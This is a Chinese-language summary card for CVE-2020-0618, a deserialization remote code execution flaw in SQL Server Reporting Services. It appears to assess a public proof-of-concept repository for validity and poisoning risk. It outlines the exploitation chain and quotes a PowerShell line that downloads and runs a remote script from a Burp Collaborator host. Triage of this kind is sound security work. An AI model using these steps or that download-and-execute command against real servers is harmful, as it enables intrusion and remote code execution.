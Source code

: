 ## CVE-2020-0618 - Microsoft SQL Server Reporting Services RCE

**漏洞编号:** CVE-2020-0618

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Microsoft SQL Server Reporting Services (SSRS)

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** 受影响版本包括SQL Server 2012 SP4, 2014 SP3, 2016 SP2 等，具体参考漏洞库信息

**利用条件:** 需要能够访问SSRS服务的web页面

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2020-0618是一个存在于Microsoft SQL Server Reporting Services中的远程代码执行漏洞。该漏洞是由于SSRS未能正确处理页面请求导致的，更具体地说，是由于`ViewState`反序列化漏洞。攻击者可以通过发送特制的页面请求，利用不安全的`LosFormatter`反序列化过程执行任意代码。

**有效性：**
提供的POC代码看起来有效。它使用了`ysoserial.net`工具生成恶意的序列化payload，并使用`TypeConfuseDelegate` gadget，该gadget常用于.NET反序列化漏洞的利用。Payload中嵌入了powershell命令，用于执行任意代码，例如通过`iwr`下载并执行远程脚本。

**投毒风险：**
该仓库存在一定的投毒风险。虽然主要的漏洞利用代码看起来是合理的，但以下几点需要注意：
*   POC代码中的`iwr("https://qoigyuef2a4z1a7rsir6lvi3eukl8a.burpcollaborator.net/In")|iex'`，该URL指向一个外部资源，如果该资源被篡改，则可能导致执行恶意代码。
*   虽然利用代码看起来像是合法的利用，但仍然要谨慎，由于 `burpcollaborator.net` 域名是一种常用的渗透测试工具，虽然在本次上下文中不一定是恶意的，但也增加了投毒的概率.
综合考虑，评估投毒风险为10%。主要风险在于外部URL和潜在的payload。

**利用方式：**
1.  攻击者首先需要确定目标SSRS服务器存在CVE-2020-0618漏洞。
2.  使用`ysoserial.net`工具，基于`TypeConfuseDelegate` gadget和`LosFormatter`格式，生成包含恶意powershell命令的序列化payload。
3.  恶意powershell命令会被编码成Base64字符串。
4.  攻击者构造包含该payload的恶意请求，发送到SSRS服务器的web页面。漏洞利用链大致如下：网页请求->ViewState->LosFormatter反序列化->TypeConfuseDelegate -> Powershell RCE
5.  SSRS服务器在处理请求时，会反序列化`ViewState`，由于`LosFormatter`的不安全性，会导致代码执行。`TypeConfuseDelegate` gadget会将反序列化过程导向恶意代码。
6.  最终，服务器会执行payload中嵌入的powershell命令，攻击者从而获得远程代码执行的能力。

**项目地址:** [itstarsec/CVE-2020-0618](https://github.com/itstarsec/CVE-2020-0618)

**漏洞详情:** [CVE-2020-0618](https://nvd.nist.gov/vuln/detail/CVE-2020-0618)